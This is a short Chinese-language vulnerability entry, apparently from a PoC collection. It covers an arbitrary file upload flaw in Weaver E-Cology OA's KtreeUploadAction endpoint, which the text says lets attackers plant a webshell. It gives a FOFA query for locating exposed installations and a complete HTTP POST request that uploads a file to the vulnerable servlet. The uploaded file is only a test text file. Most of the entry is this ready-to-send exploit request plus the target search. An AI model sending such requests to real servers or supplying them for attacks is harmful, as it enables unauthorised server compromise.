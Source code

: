 ## 泛微E-Cology-KtreeUploadAction任意文件上传漏洞

泛微OA E-Cology KtreeUploadAction 存在文件上传漏洞，攻击者可通过漏洞上传webshell，达到控制web服务器的权限

## fofa

```
app="泛微-协同商务系统"
```

## poc

```javascript
POST /weaver/com.weaver.formmodel.apps.ktree.servlet.KtreeUploadAction?action=image HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Content-Length: 160
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cache-Control: max-age=0
Connection: close
Content-Type: multipart/form-data; boundary=--------1638451160
Cookie: Secure; JSESSIONID=abc6xLBV7S2jvgm3CB50w; Secure; testBanCookie=test
Upgrade-Insecure-Requests: 1

----------1638451160
Content-Disposition: form-data; name="test"; filename="test.txt"
Content-Type: application/octet-stream

test
----------1638451160--
```

![image-20240621190834410](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211908456.png)
